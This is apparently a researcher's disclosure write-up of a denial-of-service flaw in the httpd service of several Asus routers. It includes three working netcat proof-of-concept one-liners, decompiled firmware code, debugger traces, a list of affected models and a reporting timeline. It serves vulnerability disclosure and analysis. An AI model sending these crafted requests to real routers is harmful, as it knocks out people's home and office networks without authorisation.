 # Specially-crafted HTTP packet DoS/DDoS attack on Asus RT-AC86U, RT-AX88U, and many other Asus router
> Aug  3 2019, Altin Thartori, github.com/tin-z

## Vulnerability Details
The vulnerability is a DoS/DDoS, that resides in the httpd services, and so in most of the Asus router that uses cgi-bin interface (not Boa http server).
The vulnerability can be triggered from inside the router network, or by CSRF, and doesn't require authentication.

## POC
```
  #example 1:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0x10)) + ' http/1.1' +'\n' +'User-Agent: ' " ) - | nc 192.168.1.1 80
  #example 2:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0xd)) + ' http/1.1' +'\n' +'Referer: '" ) - | nc 192.168.1.1 80
  #example 3:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0xc)) + ' http/1.1' +'\n' +'Cookie: '" ) - | nc 192.168.1.1 80

```

## Why
We inspected the Asus RT-AC86U firmware, (Version 3.0.0.4.384.45717).
After reversing the binary httpd, we found the function starting at 0x17F54 addresses to be the main interface comunicating with the client.

```
     1	int sub_17F54()
     2	{
     3	  ...
     4	  int req_get_or_post_or_head; // [sp+484h] [bp-2734h]@1
     5	  int canary; // [sp+2B94h] [bp-24h]@1
     6	
     7	  canary = _stack_chk_guard;
     8	  host_name = 0;
     9	  memset(&req_get_or_post_or_head, 0, 0x2710u);
    10	  if ( !fgets((char *)&req_get_or_post_or_head, 0x2710, (FILE *)fd_Socket_clnt) )
    11	  {
    12	    reply_1 = "No request found.";
    13	    reply_2 = "Bad Request";
    14	fail_req_path:
    15	    response_code = 400;
    16	    goto fail_req_path_2;
    17	  }
    18	  req_uri_path = (char *)&req_get_or_post_or_head;
    19	  
    20	  // check valid request head e.g. 'get / HTTP/1.1\n'
    21	  
    22	  ...
    23	
    24	0x1810C:
    25	  while ( fgets(body_req, (char *)&canary - body_req, (FILE *)fd_Socket_clnt)  // [1]
    26	       && strcmp(body_req, "\n")
    27	       && strcmp(body_req, "\r\n") )
    28	  {
    29	
    30	  ...
    31	
    32	0x183B4:
    33	      if ( !strncasecmp(body_req, "User-Agent:", 0xBu) )
    34	      {
    35	        v24 = body_req + 11;
    36	        stringp = v24;
    37	        v25 = strspn(v24, " \t"); //v25=0
    38	        user_agent_client_ptr = &v24[v25];
    39	        stringp = &v24[v25];
    40	        body_req = &v24[v25 + 1] + strlen(&v24[v25]); //  [2]
    41
    42	
```

So this is the execution flow:
- After parsing the uri, and the http version, we reach the line 24, and this is our scenario, before executing fgets:
```
 →    0x18124                  bl     0x14fa4 <fgets@plt>
   ↳     0x14fa4 <fgets@plt+0>    add    r12,  pc,  #0,  12
         0x14fa8 <fgets@plt+4>    add    r12,  r12,  #471040    ; 0x73000
      ────────── arguments (guessed) ────
      fgets@plt (
         $r0 = 0xfffeec6d → 0x00000000 → 0x00000000,
         $r1 = 0x0000000f → 0x0000000f,
         $r2 = 0x000e0be0 → 0xfbad2480 → 0xfbad2480
      )
```

- So now we have the 'body_req' that holds 0xfffeec6d which should now contain "User-agent: \n\0" as string, and so we get into the if path, in line 32
- After executing the line 40, then 'body_req' points to 0xfffeec7b, and so again we reach the loop, in the line 24, and this is our new scenario:
```
 →    0x18124                  bl     0x14fa4 <fgets@plt>
   ↳     0x14fa4 <fgets@plt+0>    add    r12,  pc,  #0,  12
         0x14fa8 <fgets@plt+4>    add    r12,  r12,  #471040    ; 0x73000
      ────────── arguments (guessed) ────
      fgets@plt (
         $r0 = 0xfffeec7b → 0x02720000 → 0x02720000,
         $r1 = 0x00000001 → 0x00000001,
         $r2 = 0x000e0be0 → 0xfbad2480 → 0xfbad2480
      )
```

- So now we have the 'body_req' that holds 0xfffeec7b which should now contains '\n\0', no it's not, because in our scenario the fgets reads one byte, 
  and stops after an EOF or a newline, but if a newline is read, it is stored into the buffer, and then a terminating null byte ('\0') is stored after 
  the last character in the buffer, which in our case is the place where belongs the newline.

- The fgets doesn't return NULL, because it has read at least something, but the problem is that, than we aren't able to update body_req, which still continue
  to points to 0xfffeec7b, and so we are stuck :( even if we disconnect the client


### Other Routers that are affected by the same Logic Bug
  RT-AX88U [Confirmed]
  RT-AC87 [Not Confirmed]
  ROG Rapture GT-AX11000 [Confirmed]
  RT-AC86U [Confirmed]
  RT-AC66U B1 [Not Confirmed]
  ROG Rapture GT-AC5300 [Confirmed]
  .. other Asus router that uses the same logic in httpd


## Timeline
- Aug  3 2019: The vulnerability is reported to Asus security advisory
- Aug  21 2019: Patch released also for RT-AC86U (v.3.0.0.4.384.81039), no CVE, my name added to contribution list ![photo1.jpg](photo1.jpg)
- Aug  29 2019: Patch for RT-AC86U removed from the Asus website 
- ???
